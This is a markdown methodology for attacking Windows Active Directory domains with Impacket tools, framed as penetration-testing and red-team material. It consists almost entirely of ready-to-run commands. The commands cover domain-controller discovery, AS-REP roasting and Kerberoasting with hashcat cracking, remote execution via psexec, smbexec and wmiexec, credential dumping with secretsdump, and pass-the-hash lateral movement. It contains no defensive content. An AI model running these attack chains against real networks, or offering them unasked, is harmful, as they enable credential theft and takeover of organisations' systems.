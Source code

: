 # Impacket Attack Methodologies

This document outlines common attack chains and methodologies using Impacket tools for penetration testing and red team operations.

## Initial Access & Reconnaissance

### Phase 1: Domain Discovery
```bash
# Discover domain controllers
nmap -p 88,389,636 192.168.1.0/24

# Basic domain enumeration (no credentials)
python3 GetNPUsers.py domain.com/ -dc-ip 192.168.1.10
python3 GetUserSPNs.py domain.com/ -dc-ip 192.168.1.10
```

### Phase 2: Initial Credential Acquisition
```bash
# ASREPRoast attack
python3 GetNPUsers.py domain.com/ -dc-ip 192.168.1.10 -request -outputfile asrep.hash
hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt

# Kerberoasting attack (if you have any valid account)
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -request -outputfile kerberoast.hash
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt
```

## Lateral Movement Methodologies

### SMB-Based Lateral Movement
```bash
# Method 1: PSExec
python3 psexec.py domain.com/administrator:password@target.domain.com

# Method 2: SMBExec (alternative if psexec fails)
python3 smbexec.py domain.com/administrator:password@target.domain.com

# Method 3: WMIExec (stealthier)
python3 wmiexec.py domain.com/administrator:password@target.domain.com
```

### Hash-Based Movement
```bash
# Extract hashes from compromised system
python3 secretsdump.py domain.com/user:password@target.domain.com

# Use extracted hashes for lateral movement
python3 psexec.py -hashes :ntlmhash administrator@next_target.domain.com
python3 wmiexec.py -hashes :ntlmhash administrator@next_target.domain.com
```
